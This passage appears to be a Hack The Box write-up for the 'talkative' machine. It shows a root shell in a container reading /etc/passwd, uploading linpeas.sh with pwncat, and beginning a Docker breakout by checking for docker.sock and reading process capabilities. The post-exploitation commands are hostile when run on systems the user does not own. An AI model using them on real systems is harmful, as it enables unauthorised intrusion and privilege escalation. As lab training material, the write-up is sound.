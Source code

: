 (remote) root@c150397ccd63:/home# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
rocketchat:x:999:999::/home/rocketchat:/bin/sh
(remote) root@c150397ccd63:/home# ls /home
(remote) root@c150397ccd63:/home# 
```

```
(local) pwncat$ upload /home/kali/htb/talkative/serve/linpeas.sh /dev/shm
/dev/shm ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 776.8/776.8 KB • ? • 0:00:00
[23:25:22] uploaded 776.78KiB in 0.70 seconds 
```

```Linpeas``` did not run in ```/dev/shm``` so I've copied into ```/tmp/```



The output was a bit hard to interprete, since we are already root within the container, but that gave me the idea to look for some container breakouts.
https://github.com/carlospolop/hacktricks/blob/master/linux-unix/privilege-escalation/docker-breakout.md

### Docker Breakout

The first technique was not useful in this senario, because no docker socket was mountet. 
```
(remote) root@c150397ccd63:/tmp# find / -name docker.sock 2>/dev/null
(remote) root@c150397ccd63:/tmp# 
```

The second technique lacked some explanation but i've found additional explanation on ```hacktricks.xyz``` directly.
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities

Getting the Capabilities from the bash process. ```Proc ID``` was provided by the ```linpeas.sh output```.

```
(remote) root@c150397ccd63:/tmp# cat /proc/488/status | grep Cap
CapInh: 0000000000000000
CapPrm: 00000000a80425fd
CapEff: 00000000a80425fd
CapBnd: 00000000a80425fd
CapAmb: 0000000000000000
```
Decoding the values to the right capabilities.
```